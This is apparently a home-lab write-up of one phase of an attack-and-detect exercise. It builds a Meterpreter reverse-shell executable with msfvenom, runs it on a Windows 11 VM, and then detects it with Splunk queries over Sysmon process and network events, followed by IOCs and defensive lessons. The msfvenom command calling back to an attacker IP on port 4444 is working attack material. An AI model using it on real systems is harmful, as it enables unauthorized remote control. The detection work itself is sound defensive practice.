

Phase 3: Exploitation and Command and Control
Establishing a Remote Meterpreter Session
Attack Overview
Brute forcing is loud, so I moved on to a more direct method for this phase. I created a custom executable that would give me a reverse shell once it was run on the target. This allowed me to control the Windows 11 system remotely from my Kali terminal using the Metasploit Framework. It is a powerful way to establish a stable connection for further attacks.
Tools Used
- msfvenom: Payload generator
- Metasploit Framework (msfconsole): Handler / Listener
Execution Details
I started by building the malicious payload on my Kali machine. I used msfvenom to create an x64 executable that connects back to my IP on port 4444.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f exe -o payload.exeI moved the payload.exe file to the Windows computer and set up a listener in Metasploit to wait for the connection. As soon as I ran the file on the target, I got an active session. This gave me full access to browse files and run commands on the remote system.

SIEM Detection and Payload Tracking
This attack leaves a trail in the Sysmon logs that is very different from a normal user. I focused on tracking two specific events: the creation of the process and the outbound network connection it made immediately after.
1. Detecting Suspicious Process Creation (Event Code 1)
I used this query to find any process named payload.exe that was started on the system. In a real environment, you would look for any unknown executable running from a user directory.
index=homesoc_sysmon EventCode=1
| search Image="*payload.exe*" OR OriginalFileName="payload.exe"2. Tracking Outbound C2 Traffic (Event Code 3)
This query looks for network connections made by the payload. It is very suspicious when a new process tries to connect to an external IP on a non-standard port like 4444.
index=homesoc_sysmon EventCode=3
| where Image="*payload.exe*" AND DestinationPort=4444Correlation Strategy
I created a dashboard that correlates these two events. If a new process starts and then immediately opens a network connection, it is almost certainly a reverse shell.
The logic monitors for:
- Creation of an untrusted binary (Event Code 1)
- Network activity from that specific binary (Event Code 3)
Combined Correlation SPL
index=homesoc_sysmon EventCode=1 Image="*payload.exe*"
| join Image [search index=homesoc_sysmon EventCode=3 DestPort=4444]
Key Indicators of Compromise (IOCs)
- Sysmon Event ID 1: Process creation of payload.exe
- Sysmon Event ID 3: Outbound connection to port 4444 from a newly created executable
- Source IP: 192.168.56.101 (Victim)
- Destination IP: 192.168.56.104 (Attacker)
- File Name: payload.exe
Analyst Notes and Lessons Learned
The sequence of a new process starting and immediately connecting to a remote IP is a classic signature of a reverse shell. In this lab, the pattern stood out clearly because there was no other traffic on port 4444.
This phase highlighted the importance of a few key defenses:
- EDR tools can automatically kill processes that try to open suspicious network connections.
- Whitelisting only approved applications would have stopped the payload from running at all.
- Blocking common attack ports like 4444 at the network level is a simple but effective layer of security.